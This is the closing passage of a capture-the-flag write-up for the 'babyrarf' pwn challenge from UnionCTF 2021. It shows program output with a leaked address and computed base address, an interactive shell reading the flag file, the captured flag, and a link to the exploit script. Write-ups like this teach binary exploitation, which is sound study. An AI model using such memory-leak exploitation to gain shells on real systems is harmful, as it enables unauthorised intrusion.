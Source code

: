 ```

/* ... */
/* lot of iterations */
/* ... */

You deal 40 dmg
The boss deals 70 dmg
You lost!

Choose an attack:

1. Knife

2. A bigger knife

3. Her Majesty's knife

4. A cr0wn


leak_csu=0x55b3b5b3a4d0
base: 0x55b3b5b39000
You deal 140736258161760 dmg
The boss deals 96 dmg
You lost!

Congratulations! You may now declare yourself the winner:


[*] Switching to interactive mode
$ cat /home/babyrarf/flag.txt
union{baby_rarf_d0o_d00_do0_doo_do0_d0o}
```

The final script can be found [here](https://github.com/ret2school/ctf/blob/master/2021/unionctf/pwn/babyrarf/p0wn.py).

That's all folks :)
